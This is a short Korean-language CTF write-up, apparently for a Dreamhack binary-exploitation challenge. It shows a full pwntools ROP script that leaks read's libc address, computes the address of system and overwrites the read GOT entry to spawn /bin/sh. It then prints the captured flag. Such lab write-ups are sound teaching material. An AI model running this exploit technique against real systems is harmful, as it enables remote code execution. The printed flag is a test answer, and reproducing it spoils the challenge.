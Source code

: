 ```
write_got = e.got['write']

pop_rdi = 0x400883
pop_rsi_r15 = 0x400881
ret = 0x4005a9

payload = b'A' * 0x48   # buf + SFP

payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi_r15)
payload += p64(read_got)
payload += p64(0)
payload += p64(write_plt)

payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi_r15)
payload += p64(read_got)
payload += p64(0)
payload += p64(read_plt)

payload += p64(pop_rdi)
payload += p64(read_got + 0x8)
payload += p64(ret)
payload += p64(read_plt)


p.send(payload)

p.recvuntil(b'A' * 0x40)
read_addr = u64(p.recvn(8))
libc_base = read_addr - libc.symbols['read']
log.info(f'read : {hex(read_addr)}')
log.info(f'libc_base : {hex(libc_base)}')

system = libc_base + libc.symbols['system']
log.info(f'system : {hex(system)}')

p.send(p64(system) + b'/bin/sh\x00')

p.interactive()
```
위처럼 익스플로잇 코드를 작성해보았다. ROP를 통해 libc의 read 주소를

알아내 libc 베이스와 system 주소를 계산한 후, GOT의 read 엔트리에 system 주소와 /bin/sh\x00 작성하여,

/bin/sh를 실행하는 코드이다.

<br>

</br> 

<img width="1280" height="755" alt="image" src="https://github.com/user-attachments/assets/5ef77b22-c3a8-4fc5-b8ce-6ba5937b409b" />

해당 코드를 실행해보니, 플래그 값을 얻을 수 있었다, 

<br>

</br> 

```
DH{6311151d71a102eb27195bceb61097c15cd2bcd9fd117fc66293e8c780ae104e}
```
